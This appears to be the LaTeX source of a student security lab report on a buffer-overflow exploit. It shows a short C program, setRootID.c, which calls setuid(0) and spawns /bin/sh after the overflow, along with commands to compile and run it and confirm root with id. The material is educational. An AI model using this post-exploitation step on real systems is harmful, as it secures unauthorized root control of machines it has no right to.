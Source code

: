 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[H]
    \centering
    \includegraphics[width=1\textwidth]{bf-exploit.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Change the real user ID to root}
\end{center}

\noindent
It can be observed that although we have acquired the root shell and the effective
user ID is root, the real user ID is still not root. The following program changes
the real user ID to root and we should have a real root process.

\vspace{0.2in}

\begin{lstlisting}
/* setRootID.c */
void main()
{
    setuid(0);
    system("/bin/sh");
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -o setRootID setRootID.c
./stack
id
./setRootID
id
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    \includegraphics[width=1\textwidth]{bf-root-id.png}
\end{figure}
\end{document}

